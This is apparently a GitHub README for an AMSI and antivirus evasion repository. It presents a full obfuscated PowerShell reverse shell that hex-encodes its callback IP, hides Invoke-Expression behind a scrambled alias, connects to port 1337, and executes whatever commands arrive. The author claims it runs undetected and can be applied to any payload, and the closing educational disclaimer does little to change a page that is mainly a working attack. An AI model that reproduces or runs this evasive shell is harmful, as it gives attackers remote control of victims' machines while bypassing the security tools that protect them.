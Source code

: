 # Windows-AMSI-Bypass-Evasion
Bypass AMSI using powershell

<h1>🔎 - What is this? </h1>

This repo is going to be to evade most antivirus via PowerShell obfuscation.
It's not something new, but many people asked me how to hide an existing payload or a reverse shell from powershell which is already detectable
<br>I will use an existing payload (reverse tcp with powershell) <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1"> You can view it here </a><br>
When you run this simple payload it will be detected in 100% of cases <br>
<img src="https://img001.prntscr.com/file/img001/WsO4LOjjRCGdSRSwIA6Yow.png">
<br>
<h1>🧨 - How to avoid being detected? </h1>

Now the goal is to hide each of the above commands separately so that they are not detected as malicious<br>
First we need to encode our ip address<br>
<img src="https://img001.prntscr.com/file/img001/4PTb8EsuRjCDjBGXhtAUpQ.png">
<br>  Full payload : 
<pre>while ($true) {
    $px = "c0","a8","38","1"
    $p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
    $w = "GET /amsi.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.67 Safari/537.36`r`nAccept: text/html`r`n`r`n"
    $s = [System.Text.ASCIIEncoding]
    [byte[]]$b = 0..65535|%{0}
    $x = "n-eiorvsxpk5"
    Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158])
    $y = New-Object System.Net.Sockets.TCPClient($p,1337)
    $z = $y.GetStream()
    $d = $s::UTF8.GetBytes($w)
    $z.Write($d, 0, $d.Length)
    $t = (n-eiorvsxpk5 whoami) + "$ "
    while(($l = $z.Read($b, 0, $b.Length)) -ne 0){
        $v = (New-Object -TypeName $s).GetString($b,0, $l)        
        $d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t)
        $z.Write($d, 0, $d.Length)
    }
    $y.Close()
    Start-Sleep -Seconds 5
}
}
</pre><br>

<h1>💣 - Result  </h1> 
The payload was successfully executed without any detection... You can do this for all the payloads you want <br>
<img src="https://img001.prntscr.com/file/img001/mRAuoKkNR8G1_0ttKli-LA.png"> <br>

<h1>ℹ️ Disclaimer</H1>
This script should only be used for educational and testing purposes.
Use it only on your own networks.
The authors are not responsible for their uses.
